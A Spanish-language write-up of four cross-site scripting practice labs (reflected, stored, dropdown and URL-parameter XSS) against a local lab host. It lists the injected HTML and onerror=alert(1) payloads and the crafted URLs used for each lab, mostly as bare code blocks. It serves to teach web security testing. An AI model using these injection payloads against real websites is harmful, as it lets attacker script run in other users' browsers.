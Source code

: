 -Laboratorio1 (reflected XSS) 
Nos dirigimos a el e inyectamos este comando:
```bash
<h1>Hola caraculo</h1>
```
o este otro
```bash
'"><img src=x onerror=alert(1) />
```

-Laboratorio2 (stored XSS)
Nos dirigimos y ejecutamos:
```bash
<h1>XSS</h1>
```
```bash
<p style="color:blue;">COLOR_AZUL</p>
```

```bash
'"><img src=x onerror=alert(1) />
```

```bash
<h1>Hola caraculo</h1>
```

-laboratorio3 (XSS con Dropdowns)
cacharreando dando a las opciones en la barra de navegador podemos ver esto:
```
http://172.17.0.2/laboratorio3/?opcion1=ValorA&opcion2=&opcion3=
```
aqui vamos a inyectar el XSS:
```bash
http://172.17.0.2/laboratorio3/?opcion1=ValorA&opcion2=&opcion3=<h1>HOLA</h1>
```
```bash
http://172.17.0.2/laboratorio3/?opcion1=ValorA&opcion2=&opcion3=<img src="x" onerror="alert(1)" />
```


-laboratorio4 (Reflected XSS a traves de la URL)
 podemos leer esto :
 ```
No hay contenido en el parámetro 'data'.
```
lo cual nos hace pensar que se puede  inyectar cosas en el parametro dara, así que lo insertamos en la url:
URL original :
```
http://172.17.0.2/laboratorio4/
```

url con el parametro data:

```bash
http://172.17.0.2/laboratorio4/?data=<h1>Hola</h1>
```
```bash
http://172.17.0.2/laboratorio4/?data=<img src="x" onerror="alert(1)" />
```

